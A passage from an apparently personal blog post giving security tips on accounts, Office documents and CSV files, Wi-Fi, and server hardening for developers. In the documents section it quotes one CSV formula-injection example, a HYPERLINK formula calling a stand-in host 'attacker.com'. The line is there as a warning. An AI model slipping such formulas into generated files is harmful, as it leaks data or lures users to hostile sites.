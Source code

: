 - Enable all the security options they have like 2 Factor authentication, SMS confirmation.
- Don’t share passwords with your friends or change them afterwards.

### <a href="#Microsoft-Documents" class="headerlink" title="Microsoft Documents"></a>Microsoft Documents

- If you use your documents locally or by trusted peers, you shouldn’t have many problems. However, for auto-generated documents like (\*.csv) that you download from emails or compromised websites they can change data or insert malicious links (`=HYPERLINK("[http://attacker.com?some='data](http://attacker.com/?some=%27data%27)')`) and take you to their websites.
- Be aware of macros. They are code that automatically runs when you open the program. In modern versions, Office alerts you when a doc has a macro, and now they are disabled by default.

### <a href="#Wifi-security-tips" class="headerlink" title="Wifi security tips"></a>Wifi security tips

- Use a password for your wifi. If you leave it open anybody connects to it can have access to your computers, cell phones, tablets, and smart fridge or cameras.
- Use strong encryption for Wifi. Don’t use WEP encryption. Use WPA or the newer WPA2. WEP can be cracked relatively quickly using some programs.
- Use a strong password. It makes it harder to break.
- Provide a separate network for guests, so your connected devices are not exposed nor your router.
- If you use public wifi, consider using a VPN. Hotspot operators and ISPs can snoop into your traffic, but if you use a VPN, they won’t be able to.
- If you are very paranoid or are working with something top secret. Here are some advanced options:
  - Have a hidden Wi-fi (SSID) and don’t broadcast it. You will need the name to connect to it.
  - Restrict access by MAC address list. This list will allow only the devices in there to connect to the network.
  - Shutdown your network when is not in used. It’s a little extreme, but that’s the ultimate security measure or use wired connections.

### <a href="#Developers-security-tips" class="headerlink" title="Developers security tips"></a>Developers security tips

- Keep all your operating systems and dependencies up-to-date. Maintainers usually patch their software after vulnerabilities come to light.
- Use latest encryption protocols TLS (rather than older SSL versions)
  - Use SFTP instead of FTP
  - Use SSH instead of telnet
  - Use HTTPS instead of HTTP. You can encrypt for free with [Let’s Encrypt](https://letsencrypt.org/).
- Disable direct root login in SSH. You can escalate if needed using `sudo`.
- Disable SSH connection with passwords. Use ssh private key to log in instead.
- Use firewalls to block any port that you are not using. Firewalls minimize the surface of attack. For Linux, you can use `UFW`; another option is `iptables`.
- Use VPN and private networks. If you don’t need to expose a database to the internet, even better. Make it only accessible for your private network or VPN.
- Don’t trust the default configuration of programs facing the internet. Change default ports on databases, ssh.
  - Instead of logging `ssh` on port `22`. Use port `2146` for instance. I did this and noticed how the attempts of login went from hundreds to zero.
  - Instead of running MongoDB on port `27017`, use `56073`
- Change default user/passwords. Remove default users (e.g., RaspberryPi comes with the `pi` user that allow people to login into it, change it!)
- Enable authorization on your databases (use passwords). Don’t leave them wide open to the world (and hackers).
- Remove default accounts in your databases. E.g., MySQL
- Keep backups (nightly?)
- Automate monitoring and alert reports. Nobody has time to be glued to logs every time. However, you should set alerts when certain events happen.
  - Alerts for failed attempts of login